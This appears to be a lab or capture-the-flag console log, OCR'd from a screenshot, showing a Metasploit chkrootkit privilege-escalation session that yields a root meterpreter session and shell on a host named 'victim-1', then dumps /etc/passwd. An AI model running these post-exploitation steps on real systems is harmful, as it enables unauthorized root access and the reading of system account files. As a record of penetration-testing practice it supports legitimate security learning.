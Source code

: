 ```
msf5 exploit(unix/local/chkrootkit) > sessions 4
[*] Starting interaction with 4...

meterpreter > sysinfo
Computer     : 192.58.78.3
OS           : Ubuntu 18.04 (Linux 5.4.0-125-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > getuid
Server username: no-user @ victim-1 (uid=0, gid=0, euid=0, egid=0)
meterpreter > shell
Process 13625 created.
Channel 1 created.
/bin/bash -i
bash: cannot set terminal process group (26): Inappropriate ioctl for device
bash: no job control in this shell
root@victim-1:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@victim-1:~# whoami
whoami
root
```

```
root@victim-1:~# cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
messagebus:x:103:105::/nonexistent:/usr/sbin/nologin
sshd:x:104:65534::/run/sshd:/usr/sbin/nologin
jackie:x:1000:1000:,,,:/home/jackie:/bin/bash

```
